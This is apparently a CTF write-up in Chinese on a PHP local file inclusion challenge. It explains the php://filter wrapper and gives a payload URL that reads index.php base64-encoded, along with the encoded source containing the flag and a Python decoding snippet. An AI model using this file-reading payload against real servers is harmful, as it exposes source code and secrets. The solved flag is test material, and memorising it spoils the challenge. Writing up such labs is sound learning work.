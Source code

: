 ## 文件包含

毫无头绪，LFI是啥子鬼，所以我去查了一下

### LFI漏洞

主要参考了
[php://filter的使用 来着_warning_的博客](https://blog.csdn.net/destiny1507/article/details/82347371)
和
[谈一谈php://filter的用处 来自PHITHON的博客](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

本地文件包含（Local File Include）
把具有某一功能的函数写在一个独立的php文档中，当某一文件需要时直接调用该函数文档。由于程序员未对用户可控变量的输入进行检查，导致用户可以控制被包含的文件，成功利用时可以使web server将特定文件当成php执行，从而导致用户获取颐一定的服务器权限。

### php://filter协议

php://filter 是php中独有的一个协议，可以作为一个中间流来处理其他流，可以进行任意文件的读取；根据名字，filter，可以很容易想到这个协议可以用来过滤一些东西。
使用不同的参数可以达到不同的目的和效果：

| 名称 | 用法 | 备注 |
| --- | --- | --- |
| resource=<要过滤的数据流> | 指定了你要筛选过滤的数据流。 必选 |  |
| read=<读链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（ 竖线）分隔。 | 可选 |
| write=<写链的筛选列表> | 可以设定一个或多个过滤器名称，以管道符（竖线）分隔。 | 可选 |
| <；两个链的筛选列表> | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |  |

### 题目分析

这个题真不知道该怎么做，在网上大概找了解题方法

使用这个payload直接读取index.php的源码
**http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php**
这个东西用了一个php://filter这个协议，大致作用是使用php://filter协议以base64加密的方法输出网页中的全部内容，但是要怎么样输出不带加密，简单删掉部分语句是不行的，具体怎么弄我也不知道[手动狗头]

得到结果base64加密过的index.php的源码

```
PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4= 
```

然后把它解码，可以在在线工具网站解码，也可以用语言函数解码，这里可以使用python

```
import base64

str = "base64的值"
plantext = base64.b64decode(str).decode('utf-8')
print(plantext) 
```

